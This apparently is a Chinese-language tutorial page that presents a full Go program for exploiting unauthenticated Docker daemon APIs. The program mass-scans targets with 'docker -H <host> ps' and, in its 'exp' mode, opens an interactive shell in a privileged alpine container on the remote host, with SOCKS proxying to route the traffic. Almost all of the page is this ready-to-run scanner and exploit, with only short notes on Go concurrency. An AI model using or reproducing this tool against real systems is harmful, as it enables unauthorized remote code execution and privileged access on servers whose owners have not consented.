

TreeviewCopyright © wjlin0 all right reserved, powered by aleen42
1. docker-daemon-api-rce
[!Note]
1.1. 知识点
1.1.1. 并发
利用Goroutine 快速实现大量并发
c1 := make(chan map[interface{}]interface{}, thread)
for _, t := range targets {
//利用 go 关键字 开启 gorountine
//wg.Add(1)
go check(t, c1)
}
for _, _ = range targets {
// 从通道内取值
b := <-c1
fmt.Printf("%v\n", b)
}
//wg.Wait()
func check(t string, ch chan map[interface{}]interface{}) {
fmt.Println("开始检测目标 ", t)
b := func() (b map[interface{}]interface{}) {
b = map[interface{}]interface{}{}
cmd := exec.Command("docker", "-H", t, "ps")
checkSocksProxy(cmd)
//fmt.Println(cmd)
out, err := cmd.CombinedOutput()
if err != nil {
b[t] = false
return b
}
if strings.Contains(string(out), "CONTAINER") && strings.Contains(string(out), "ID") && strings.Contains(string(out), "IMAGE") && strings.Contains(string(out), "COMMAND") && strings.Contains(string(out), "CREATED") {
b[t] = true
return b
} else {
b[t] = true
return b
}
}()
// 将结果传入通道ch中
ch <- b
}
1.1.2. 命令行交互式输入输出
cmd := exec.Command("docker", "-H", t, "run", "-it", "--rm", "--privileged", "alpine", "/bin/sh")
checkSocksProxy(cmd)
cmd.Stdin = os.Stdin
cmd.Stdout = os.Stdout
cmd.Stderr = os.Stderr
err := cmd.Start()
if err != nil {
return
}
err = cmd.Wait()
if err != nil {
fmt.Println("攻击利用失败")
return
}
1.1.3. go 给每个cmd设置环境变量
var cmdEnv []string
cmdEnv = append(cmdEnv, "ALL_PROXY="+proxy)
cmd.Env = cmdEnv
1.2. 代码
package main
import (
"bufio"
"flag"
"fmt"
"io"
"os"
"os/exec"
"regexp"
"strings"
)
var target string
var targets []string
var list string
var proxy string
var mod string
var thread int
//var wg sync.WaitGroup
func main() {
Init()
Banner()
flag.Parse()
checkArgs()
checkDocker()
if proxy != "" {
fmt.Println("设置代理: " + proxy)
}
switch mod {
case "check":
c1 := make(chan map[interface{}]interface{}, thread)
for _, t := range targets {
//wg.Add(1)
go check(t, c1)
}
for _, _ = range targets {
b := <-c1
fmt.Printf("%v\n", b)
}
//wg.Wait()
case "exp":
exp()
default:
os.Exit(-1)
}
}
func checkDocker() {
cmd := exec.Command("docker", "--version")
out, err := cmd.CombinedOutput()
if err != nil {
fmt.Println("检查Docker是否存在时，出现错误")
panic(err)
}
if !strings.Contains(string(out), "Docker version") {
fmt.Println("docker未启动 或 不存在docker，请检查")
os.Exit(-1)
}
}
func Init() {
flag.StringVar(&target, "target", "", "目标")
flag.StringVar(&list, "list", "", "目标列表")
flag.StringVar(&proxy, "proxy", "", "代理")
flag.IntVar(&thread, "thread", 20, "并发量（仅在check模式下生效）")
flag.StringVar(&mod, "mod", "check", "模式（check|exp）")
}
func Banner() {
fmt.Println(`
__.__ .__ _______
__ _ __ |__| | |__| ____ \ _ \
\ \/ \/ / | | | | |/ \/ /_\ \
\ / | | |_| | | \ \_/ \
\/\_/\__| |____/__|___| /\_____ /
\______| \/ \/
Docker Api 未授权访问 `)
}
func urlHandler(target string) string {
if strings.HasSuffix(target, "/") { // 去掉后缀 /
target = strings.TrimSuffix(target, "/")
//fmt.Println(target)
}
if !strings.HasPrefix(target, "tcp") {
target = "tcp://" + target
}
if !strings.HasPrefix(target, "http") {
target = strings.Replace(target, "http", "tcp", -1)
}
if !strings.HasPrefix(target, "https") {
target = strings.Replace(target, "https", "tcp", -1)
}
regIp := regexp.MustCompile(`^[\d\.]+$`)
if len(regIp.FindAllString(target, -1)) > 0 {
regPort := regexp.MustCompile(`^(tcp://)?\d+\.\d+\.\d+\.\d+:\d+$`)
if len(regPort.FindAllString(target, -1)) == 0 {
target = target + ":80"
}
} else {
regPort := regexp.MustCompile(`^(tcp://)?.+:\d+$`)
if len(regPort.FindAllString(target, -1)) == 0 {
target = target + ":80"
}
}
return target
}
func checkArgs() {
if target != "" {
targets = append(targets, urlHandler(target))
}
if list != "" {
fmt.Println("正在打开文件")
filePath := list
file, err := os.Open(filePath)
if err != nil {
fmt.Println("文件打开失败", err)
}
defer file.Close()
//读原来文件的内容，并且显示在终端
reader := bufio.NewReader(file)
for {
target, err := reader.ReadString('\n')
if err != nil {
if err == io.EOF {
if target != "" {
targets = append(targets, urlHandler(target))
}
break
}
}
//fmt.Printf("%#v\n", target)
target = strings.TrimSpace(target)
if target == "" {
continue
}
//fmt.Printf("%#v\n", target)
targets = append(targets, target)
}
}
if targets == nil {
flag.Usage()
os.Exit(0)
}
}
func check(t string, ch chan map[interface{}]interface{}) {
fmt.Println("开始检测目标 ", t)
b := func() (b map[interface{}]interface{}) {
b = map[interface{}]interface{}{}
cmd := exec.Command("docker", "-H", t, "ps")
checkSocksProxy(cmd)
//fmt.Println(cmd)
out, err := cmd.CombinedOutput()
if err != nil {
b[t] = false
return b
}
if strings.Contains(string(out), "CONTAINER") && strings.Contains(string(out), "ID") && strings.Contains(string(out), "IMAGE") && strings.Contains(string(out), "COMMAND") && strings.Contains(string(out), "CREATED") {
b[t] = true
return b
} else {
b[t] = true
return b
}
}()
ch <- b
//wg.Done()
}
func exp() {
var t string
var i int
fmt.Println("请选择攻击目标")
for i, tar := range targets {
fmt.Println("目标：", tar, " , ", i)
}
if len(targets) == 1 {
t = targets[0]
} else {
_, err := fmt.Scanln(&i)
if err != nil {
t = targets[0]
}
}
t = targets[i]
cmd := exec.Command("docker", "-H", t, "run", "-it", "--rm", "--privileged", "alpine", "/bin/sh")
checkSocksProxy(cmd)
cmd.Stdin = os.Stdin
cmd.Stdout = os.Stdout
cmd.Stderr = os.Stderr
err := cmd.Start()
if err != nil {
return
}
err = cmd.Wait()
if err != nil {
fmt.Println("攻击利用失败")
return
}
}
func checkSocksProxy(cmd *exec.Cmd) {
if proxy == "" {
return
}
proxy = strings.TrimSpace(proxy)
if strings.HasPrefix(target, "http") {
fmt.Println("检查是否为socks（4、4a、5）代理")
os.Exit(-1)
}
var cmdEnv []string
cmdEnv = append(cmdEnv, "ALL_PROXY="+proxy)
cmd.Env = cmdEnv
}
1.3. 运行示例图
